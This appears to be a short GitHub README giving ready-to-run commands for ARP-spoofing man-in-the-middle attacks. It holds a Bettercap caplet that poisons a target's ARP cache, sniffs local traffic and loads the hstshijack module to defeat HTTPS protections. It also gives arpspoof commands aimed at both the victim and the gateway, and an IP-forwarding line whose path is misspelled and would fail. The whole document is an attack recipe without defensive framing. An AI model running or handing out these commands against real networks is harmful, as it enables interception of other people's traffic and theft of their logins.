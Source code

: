 # spoofing-tip-s-and-command
# ARP Spoof using Bettercap
to run the spoof.cap file you need to add only target ip 
then run this command 
# bettercap -iface eth0 -caplet spoof.cap


net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.1.13
arp.spoof on
set net.sniff.local true
net.sniff on
caplets.show
hstshijack/hstshijack


# arp spoofing
# arpspoof -i eth0 -t target-ip  router-gateway-ip
# arpspoof -i eth0 -t router-gateway-ip  target-ip

in case internet is not working use this command

# echo 1>/proc/sys/net/ipv4/ip-forword
